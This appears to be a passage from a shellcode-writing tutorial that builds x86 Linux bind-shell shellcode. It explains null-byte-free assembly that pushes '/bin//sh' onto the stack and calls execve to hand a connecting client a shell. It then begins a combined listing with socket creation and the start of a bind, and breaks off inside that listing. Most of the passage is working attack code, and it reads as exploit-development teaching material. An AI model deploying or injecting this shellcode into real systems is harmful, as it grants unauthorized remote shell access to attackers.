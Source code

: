 Now we just need to execute /bin/sh with execve to give the client the shell.\
The call will be:\
execve("/bin/sh", NULL, NULL);\
We have to null terminate the string for "/bin/sh" so we will use the stack to assign it to the proper register.\
EDX is still 0'd out so we can keep it the same and also use it to make ECX 0.
Note that, for ease of writing, we want 8 characters for our string.  We can do "/bin//sh" to effectively give the same command and have the proper length.  We also want to reverse the string, split it in to 4 character sections and push it on to the stack in hex.
```asm
push edx  ; null terminate the string
push 0x68732f2f ; push hs//
push 0x6e69622f ; push nib/

mov ebx, esp    ; move null terminated string into register

mov ecx, edx    ; 0x0
mov al, 0xB     ; syscall execve
int0x80         ; execve("/bin/sh", NULL, NULL);
```
### 7 Putting It All Together
The final product is:
```asm
global _start

section .text

_start:
        ; clear registers while avoiding nulls
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        
        
        ;***************;
        ; create socket ;
        ;***************;
        
        
        ; 0x66 for socketcall
        mov al, 0x66
        ; callid - socket
        mov bl, 0x1
        
        push ecx
        push ebx
        push 0x2
        
        mov ecx, esp
        int 0x80
        
        ; store sockfd for later
        mov edi, eax
        
        
        ;*************;
        ; bind socket ;
        ;*************;
        
        
        ; syscall - socketcall
        mov al, 0x66
```